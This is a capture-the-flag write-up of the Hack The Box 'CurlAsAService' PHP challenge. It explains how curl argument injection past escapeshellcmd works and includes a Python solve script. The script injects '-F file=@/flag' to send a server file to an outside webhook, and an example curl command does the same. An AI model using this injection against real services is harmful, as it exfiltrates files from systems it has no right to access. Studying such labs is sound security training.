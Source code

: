 ```yaml
---
title: CurlAsAService
date: 2023-12-12 20:00:16 +0800
categories: [Hackthebox-Challenges, CurlAsAService]
tags: [htb, ctf, pentesting, web, code-auditing]
---
```



<img src="/assets/global/banner.png" alt="banner image">

## CurlAsAService is a PHP chalenge on Hackthebox

### Description:

In this challenge we have an input that takes a url and pass it to curl command and retrieves the output back,\
the problem is we can use arguments injection to trigger an `LFI` vulnerability.

### Source code:
<a href='https://mega.nz/file/jS4QwD6D#V5YaE96uDyiP2igv0uO81EN_kFTh3FG8Xso_QL-JE5w'>Download source code</a>

*zip password: `hackthebox`*

<img src="/assets/caas/caas.png" alt="caas image">


### Vulnerable code:
```php
class CommandModel
{
    public function __construct($url)
    {
        echo $url ."\n";
        echo escapeshellcmd($url) ."\n";
        $this->command = "curl --proto =http,https -sSL " . escapeshellcmd($url) . " 2>&1";
        echo $this->command . "\n";
    }

    public function exec()
    {
        $output = shell_exec($this->command);
        return $output;
    }
}
```

As you can see here, it uses `escapeshellcmd` to escape characters like `; | && ` etc.. .\
but since it passes out input to `CURL` arguments we can treat `CURL` to send us any file in the system.

example:
```shell
curl -F file=path/to/file http://<your webhook> # this url will receive a post request with the file
```



### Solve:

```python

import requests

def solve(webhook, file_path):
    
	headers = {'Content-Type': 'application/x-www-form-urlencoded'}
	data = {
     	'ip': f"-F file=@{file_path} {webhook}".encode('utf-8')
	}
	

	try:
		res = requests.post('http://localhost:1337/api/curl', headers=headers, data=data)
		if res.status_code == 200:
			print("Check you web hook if the file exist you'll find it there")
		else:
			print("Failed to resolve")
			print(res.status_code, res.text)
	except requests.exceptions as e:
		print(e)
 
 
if __name__ == '__main__':
    webhook = 'https://webhook.site/<webhook-uid>' # change this with your webhook url
    file_path = '/flag' # here put your target file path
    solve(webhook, file_path)

```

